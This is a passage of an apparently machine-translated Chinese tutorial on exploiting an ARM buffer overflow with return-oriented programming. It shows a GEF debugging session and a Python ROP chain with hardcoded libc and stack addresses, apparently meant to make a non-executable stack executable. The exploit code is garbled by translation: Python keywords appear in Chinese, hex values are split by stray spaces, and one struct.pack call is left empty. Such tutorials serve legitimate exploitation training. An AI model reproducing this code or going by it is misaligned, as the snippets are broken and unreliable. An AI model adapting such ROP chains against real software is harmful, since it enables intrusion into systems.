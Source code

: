 > [*] 4 个命令无法加载，运行“gef missing”以了解原因。从…读取符号。/BOF-ROP……(找不到调试符号)……完成。
> GEF>b main
> 0x 10420 处的断点 1
> GEF>r AAA*

*当它命中 bp 时，使用 **vmmap** 命令检查堆栈的地址*

*![](img/61e3fcb033a88ac5649c4cfc8bf8ccf7.png)*

***开始**段的地址就是我们需要的地址。如果你仔细观察堆栈的权限，它会说“ *rw-”。*这表示堆栈有*读*和*写*的权限，但没有*执行*的权限。现在让我们修改漏洞*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000)#堆栈基址
> exp+=(" AAAA ")
> exp+= struct . pack()*

*现在，让我们添加我们的其他小工具。*

> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000)#堆栈基址
> exp+=(" AAAA ")#垃圾
> exp += struct.pack(" < I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3*
